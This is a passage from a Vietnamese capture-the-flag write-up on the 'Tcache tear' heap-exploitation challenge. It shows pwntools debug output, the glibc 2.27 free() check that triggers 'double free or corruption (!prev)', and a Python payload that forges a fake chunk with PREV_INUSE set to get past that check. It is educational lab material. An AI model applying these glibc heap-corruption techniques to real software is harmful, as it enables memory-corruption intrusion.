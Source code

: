 ```bash
[DEBUG] Received 0xd3 bytes:
    b'Done !\n'
    b'$$$$$$$$$$$$$$$$$$$$$$$\n'
    b'      Tcache tear     \n'
    b'$$$$$$$$$$$$$$$$$$$$$$$\n'
    b'  1. Malloc            \n'
    b'  2. Free              \n'
    b'  3. Info              \n'
    b'  4. Exit              \n'
    b'$$$$$$$$$$$$$$$$$$$$$$$\n'
    b'Your choice :'
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x22 bytes:
    b'double free or corruption (!prev)\n'
```

Tại sao vậy? Nhìn vào [source](https://elixir.bootlin.com/glibc/glibc-2.27/source/malloc/malloc.c#L4281), thấy được lỗi là do cờ PREV_INUSE của chunk giả chưa được set:

```cpp
/* Or whether the block is actually not marked used.  */
if (__glibc_unlikely (!prev_inuse(nextchunk)))
  malloc_printerr ("double free or corruption (!prev)");
```

Bypass bằng cách thêm 1 chunk giả nữa liền sau có cờ PREV_INUSE, điều này là hoàn toàn có thể làm được nhờ tràn heap.  
Kích thước của chunk liền sau này là không quan trọng.

```python
malloc1(b'15', \
  (p64(0)*3 + p64(NAME_ADDR + 0x10) + p64(0)*154) + \
  (p64(0) + p64(0x21))) # fake chunk
```

Chạy lại:

```bash
[DEBUG] Received 0xd3 bytes:
    b'Done !\n'
    b'$$$$$$$$$$$$$$$$$$$$$$$\n'
    b'      Tcache tear     \n'
    b'$$$$$$$$$$$$$$$$$$$$$$$\n'
    b'  1. Malloc            \n'
    b'  2. Free              \n'
    b'  3. Info              \n'
    b'  4. Exit              \n'
    b'$$$$$$$$$$$$$$$$$$$$$$$\n'
    b'Your choice :'
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x1d bytes:
    b'corrupted size vs. prev_size\n'
```
